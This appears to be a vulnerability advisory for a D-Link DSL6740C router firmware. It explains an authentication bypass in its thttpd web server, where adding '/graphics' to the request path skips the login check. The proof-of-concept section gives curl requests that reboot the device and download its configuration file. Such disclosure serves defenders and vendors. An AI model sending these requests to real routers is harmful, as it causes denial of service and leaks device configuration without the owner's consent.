





# dlink DSL6740C authentication bypass

## firmware information

vendor: dlink

product: DSL6740C

firmware version: DSL6740C.V6.TR069.20211230

## description

Dlink DSL6740C has authentication bypass vulnerability,  unprivileged attackers can send remote packet to reboot the device or set factory mode of the device, causing potential Denial Of Service. The authentication bypass happens in binary `/sbin/thttpd`.


## Detail

The authentication part of the device is in function `alpha_auth_check`（at address: `0x40284C`）The function returns -1 if the user has not passed the authentication check, otherwise. However, attackers can bypass it by inserting `/graphics` into the `uri` field, forcing the function to return 1, which means the remote user has passed the check.



Then, attacker can reach `do_xgi` since `alpha_auth_check` return 1, not -1



In `do_xgi`, there are privileged functions, which schedule the reboot of the device, or turn the device back to factory mode.





## POC

### reboot

The following payload will reboot the device, assume the IP address of the device is `192.168.1.1`

```shell
curl -X GET "192.168.1.1/graphic/reboot.xgi?a=1"
```

### information leakage

And the following payload leak the config information of the device

```shell
curl -X GET "192.168.1.1/graphic/config.xgi?a=1" --output ./test.bin
```

The result is as follows, some content has been encrypted by the device.



## Timeline
[01/10/25] assigned CVE-2024-55162